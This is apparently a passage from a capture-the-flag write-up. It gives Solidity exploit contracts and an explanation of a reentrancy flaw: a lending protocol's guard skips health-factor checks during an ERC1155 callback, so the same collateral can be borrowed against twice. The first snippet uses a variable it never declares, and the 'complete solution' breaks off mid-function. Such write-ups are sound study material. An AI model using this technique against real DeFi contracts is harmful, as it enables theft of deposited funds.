4. Second Contract's Actions:
```solidity
contract Exploit2 {
    function exploit_pre() external {
        // Deposit received LP tokens
        uint256[] memory ids_init = new uint256[](1);
        ids_init[0] = pair.getActiveId();
        uint256[] memory amounts_init = new uint256[](1);
        pair.approveForAll(address(joe_lending), true);
        amounts_init[0] = pair.balanceOf(address(this), pair.getActiveId());
        joe_lending.deposit(ids_init, amounts_init);
    }

    function exploit_post(address player) external {
        // Borrow maximum USDJ with transferred tokens
        uint256[] memory amounts_init = new uint256[](1);
        amounts_init[0] = 1000e18;
        joe_lending.borrow(ids_init, amounts_init);
        usdj.transfer(player, usdj.balanceOf(address(this)));
    }
}
```

### Why It Works

The exploit succeeds because:
1. During the small deposit's ERC1155 callback, the reentrancy guard is active
2. This means the `_update` function won't check health factors during the token transfer
3. The second contract receives the tokens without any health factor validation
4. Both contracts can now borrow against the same underlying collateral
5. The protocol's accounting system sees these as separate positions, allowing us to exceed the normal borrowing limit

The key insight is that the reentrancy guard, intended to prevent recursive calls, actually creates a safe window for transferring tokens without health factor validation. This allows us to create multiple borrowing positions backed by effectively the same collateral.

## Complete Solution

The full solution requires two contracts:
1. Main exploit contract that handles the initial setup and deposit
2. Secondary contract that receives the transferred tokens and performs additional borrowing

Below is the complete solution:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.28;

import "forge-ctf/CTFSolver.sol";
import "src/Challenge.sol";
import {IERC1155Receiver} from "@openzeppelin/contracts/token/ERC1155/IERC1155Receiver.sol";

contract Exploit2 {
    Challenge private immutable CHALLENGE;

    constructor(Challenge challenge) {
        CHALLENGE = challenge;
    }

    function onERC1155Received(
        address operator,
        address from,
        uint256 id,
        uint256 value,
```